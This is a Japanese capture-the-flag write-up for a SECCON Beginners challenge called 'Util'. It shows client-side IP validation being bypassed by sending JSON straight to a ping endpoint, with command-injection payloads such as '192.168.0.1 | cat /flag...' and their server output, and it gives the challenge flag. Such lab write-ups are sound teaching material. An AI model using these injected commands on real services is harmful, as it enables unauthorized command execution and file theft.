 # Util

## 解法

サイトにアクセスすると IP アドレスを入力すると ping 結果を表示してくれるフォームが出てくるので、
OSコマンドインジェクションが可能ではないかと推測する。

```
192.168.2.1 | ls
```

しかしフォームからでは実行出来ず、JavaScript を確認すると無効化する処理が書かれていることがわかる

```javascript
  function send() {
      var address = document.getElementById("addressTextField").value;

      if (/^(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)$/.test(address)) {
        var json = {};
        json.address = address

        var xhr = new XMLHttpRequest();
        xhr.open("POST", "/util/ping");
        xhr.setRequestHeader("Content-Type", "application/json");
        xhr.send(JSON.stringify(json));

        document.getElementById("notify").innerHTML = "<p>sending...</p>";

        xhr.onload = function () {
          if (xhr.status != 200) {
            document.getElementById("notify").innerHTML =
              "<p>Request Error : " + xhr.response + "</p>";
          } else {
            document.getElementById("notify").innerHTML =
              "<pre><code>" + JSON.parse(xhr.response).result.replaceAll("\n", "<br />") + "</code></pre>";
          }
        };
      } else {
        document.getElementById("notify").innerHTML = "<p>Invalid IP address</p>";
      }
    }

    var init = function () {
      var btn = document.getElementById("submit");
      var popup = function () {
        send();
      };
      btn.addEventListener("click", popup, false);
    };

    window.addEventListener("load", init, false);
```

Postman で 送信

```
https://util.quals.beginners.seccon.jp/util/ping

{"address": "192.168.0.1 | ls /"}
```

ls 結果が表示される。`flag_A74FIBkN9sELAjOc.txt` という名前のファイルがあることが確認できる。

```json
{
    "result": "app\nbin\ndev\netc\nflag_A74FIBkN9sELAjOc.txt\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n"
}
```

cat で中身を確認

```
https://util.quals.beginners.seccon.jp/util/ping

{"address": "192.168.0.1 | cat /flag_A74FIBkN9sELAjOc.txt"}
```

フラグを得ることが出来た

```json
{
    "result": "ctf4b{al1_0vers_4re_i1l}\n"
}
```

## フラグ

```
ctf4b{al1_0vers_4re_i1l}
```